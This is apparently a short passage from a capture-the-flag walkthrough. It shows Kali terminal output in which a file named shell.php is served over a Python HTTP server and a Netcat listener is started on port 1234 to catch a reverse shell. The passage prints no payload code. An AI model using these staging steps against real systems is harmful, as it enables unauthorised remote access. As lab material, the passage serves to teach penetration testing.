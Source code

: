 ![Alt Text](/img/quick/image2.png)

#### >> Start HTTP server with python
```shell
┌──(kali㉿kali)-[~/Desktop/quick]
└─$ ll
total 8
-rwxr-xr-x 1 kali kali 5512 Feb  4 12:59 shell.php
                                                                            
┌──(kali㉿kali)-[~/Desktop/quick]
└─$ sudo python3 -m http.server 80     
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


#### >> Open a new terminal and initiate the Netcat listener on port 1234.
```shell
┌──(kali㉿kali)-[~/Desktop/quick]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
```
